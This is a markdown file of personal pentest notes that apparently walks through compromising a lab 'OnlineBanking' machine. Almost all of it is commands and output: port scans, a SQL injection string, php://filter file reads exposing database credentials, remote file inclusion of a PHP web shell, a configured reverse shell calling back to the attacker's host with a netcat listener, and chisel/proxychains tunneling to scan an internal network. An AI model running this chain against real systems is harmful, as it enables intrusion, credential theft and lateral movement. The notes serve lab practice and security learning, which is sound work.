

## init
```bash
arp-scan -I wlo1 --localnet
ping -c 1 192.168.1.9

# into init boot machine
rw init=/bin/bash

ifconfig ens33 192.168.1.9 netmask 255.255.255.0
route add default gw 192.168.1.1

route -n # to view defatul gateway in local machine

nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 192.168.1.9 -oG allPorts
nmap -sCV -p22,80 192.168.1.9 -oN targeted

whatweb http://192.168.1.9

# SQL Injection
' or 1=1-- - ' # final simple quote is for cloe comment only

# The only params list that are accepte in the URL must be like this
http://192.168.1.10/OnlineBanking/index.php?p=welcome
http://192.168.1.10/OnlineBanking/index.php?p=balance
http://192.168.1.10/OnlineBanking/index.php?p=transfer

# Use wrappers to see php file
http://192.168.1.10/OnlineBanking/index.php?p=php://filter/convert.base64-encode/resource=welcome

>

http://192.168.1.10/OnlineBanking/index.php?p=php://filter/convert.base64-encode/resource=balance # this url contains sql credentials

# Create a server with python
python3 -m http.server 80

192.168.1.10/OnlineBanking/index.php?p=http://192.168.1.13/balance # Only use permited words (welcome, balance...)

# Create a exploit php. Save as balance.php
<?php
    system("whoami");
?>

192.168.1.10/OnlineBanking/index.php?p=http://192.168.1.13/balance  # DO the request

# Modifying file
<?php
    system($_GET['cmd']);
?>

http://192.168.1.10/OnlineBanking/index.php?p=http://192.168.1.13/balance&cmd=whoami
# ans 
www-data

http://192.168.1.10/OnlineBanking/index.php?p=http://192.168.1.13/balance&cmd=which sh
# ans
/bin/sh

# the system has not bash installed

# Search in firefox reverse shell monkey pentester
https://pentestmonkey.net/tools/web-shells/php-reverse-shell

# Download tar compressed file

# UNcompress tar file
tar -xf php-reverse-shell-1.0.tar.gz

# Renaming file
mv php-reverse-shell-1.0 balance.php

# Open file and change params to local machine values
# ans
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;

:%s/127.0.0.1/192.168.1.13/
:%s/1234/443/

# MOve the file where the server is up by python

nc -nlvp 443
http://192.168.1.10/OnlineBanking/index.php?p=http://192.168.1.13/balance

# Now we are in the container
arp -a

# We need to use chisel to use tunneling
# Search chisel in firefox, go to releases and download amd64

# IN local machine must be run like server
# IN the remote machine must be run like client

gunzip chisel.gz

mv chisel_1.10.1_linux_amd64 chisel
chmod +x chisel

python3 -m http.server 81 # to share file

cd /tmp # remote
wget http://192.168.1.13:81/chisel # remote

./chisel server --reverse -p 1234 # locally
./chisel client 192.168.1.13:1234 R:socks # remote

```


```bash
# Modified /etc/proxychains.conf to indicates to pass throught the tunnel
socks5 127.0.0.1 1080

proxychains nmap -sT -Pn -p3306 --open -T5 -v -n 172.20.0.138 # 172.20.0.138 to mySQL container in remote

#ans
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-06 23:37 CST
Initiating Connect Scan at 23:37
Scanning 172.20.0.138 [1 port]
|S-chain|-<>-127.0.0.1:1080-<><>-172.20.0.138:3306-<><>-OK
Discovered open port 3306/tcp on 172.20.0.138
Completed Connect Scan at 23:37, 0.00s elapsed (1 total ports)
Nmap scan report for 172.20.0.138
Host is up (0.0045s latency).

PORT     STATE SERVICE
3306/tcp open  mysql

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds

# View all ports that have port 80 open
seq 1 254 | xargs -P50 -I {} proxychains nmap -sT -Pn -p80 --open -T5 -v -n 172.20.0.{} 2>&1 | grep "open"

wget http://192.168.1.13/balance
nohup php balance.php & # like disown

# tunneling
./chisel client 192.168.1.13:1234 R:socks


```
